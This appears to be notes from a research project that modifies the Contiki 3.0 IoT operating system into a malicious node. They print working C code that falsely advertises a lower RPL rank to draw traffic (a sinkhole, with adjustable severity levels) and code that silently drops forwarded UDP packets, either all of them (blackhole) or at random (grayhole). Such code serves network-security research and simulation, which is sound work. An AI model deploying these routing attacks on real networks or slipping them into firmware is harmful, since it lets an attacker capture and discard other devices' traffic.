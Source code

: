 Changes in this contiki 3.0 for the malicious node:
General rule, all changes have a comment starting with // George
(Dont confuse it with George Oikonomou...)

set MALICIOUS_LEVEL in project.conf (from 0-4).
By default it has the value 2 in rpl-icmp6.c

core/net/rpl/rpl-icmp6.c
l514: poisoning the advertised rank of the malicious node.
You can choose "how much" to poison it.

/* ******************* POISONING DIOs **************************** */
  /* George Poisoining the DIO sent to neighbors:
   * The rank of the malicious node is fakely advertised as lower.
   * it can be three different levels: light, adequate, severe.
   * In all cases, if the malicious is closer to the sink, the rank
   * will be slightly above the sink's rank (So RPL will root 
   * normally from nodes via the malicious to the sink.
   * Sink's rank is usually 128, PARENT_SWITCH_THRESHOLD is 96 or 160.
   * A node's rank should not be lesser than the sink, hence it should 
   * be more than 128. Choose wisely....
   */
   int fake_rank; 
   switch(MALICIOUS_LEVEL){
	  case 4:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 4*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 3:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 3*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 2:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 2*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break;
	  case 1:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD >
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break; 
	  default: // All other number
 	  printf("No MALICIOUS_LEVEL set, NORMAL dag->rank\n");
 	  fake_rank = dag->rank;
  }
  printf("PARENT_SWITCH_THRESHOLD:%d, dag->rank:%d, fake:%d\n",
  			PARENT_SWITCH_THRESHOLD, dag->rank,fake_rank);
  set16(buffer, pos, fake_rank);
  //set16(buffer, pos, dag->rank);
  
  
  
uip6.c
l155
/* George variable to be set at the app layer by a malicious node */
uint8_t intercept_on = 0;

l1261: blackhole and grayhole attacks.
Intercepting UDP messages and either never forward them (blackhole),
or randomly decide (50%) whether to send it or not (greyhole).
define variables in project.conf (of the malicious node contiki).

/* ********** George ************************************ */      
/* George While intercept_on == 1 the "goto send;" is not on.
 * if !goto send; packets are not forwarded any more. 
 * Traffic is therefor intercepted by a malicious node.
 * TODO: you want to do something with this traffic?
 */  		
		
		 if(intercept_on == 1){ 	 
#ifdef GREY_SINK_HOLE_ATTACK
			 int sendON=(int)random_rand()%2;
			 if(sendON == 0){
			 	  printf("DATA INTERCEPTED from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  		 }else{ // sendOn !=0	  		
				  printf("DATA LET GO from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  			  
	  			  UIP_STAT(++uip_stat.ip.forwarded);
				  goto send;
	  		 }			 
#else
		 	  printf("DATA from: ");
		 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
		 	  printf(" NEVER SENT to node: "); 
  			  printShortaddr(&UIP_IP_BUF->destipaddr);
  			  printf("\n");		 			 
#endif /* GREY_SINK_HOLE_ATTACK */	
 
	  	 }else{
	  
#if PRINT_ROUTE_ON  /* George Variable in project.conf */   
				printf("DATA UDP from: ");
				printShortaddr(&UIP_IP_BUF->srcipaddr);
				printf("	NORMALLY  pass to node: "); 
				printShortaddr(&UIP_IP_BUF->destipaddr);
				printf("\n");
#endif	
/* ****************************************************** */   


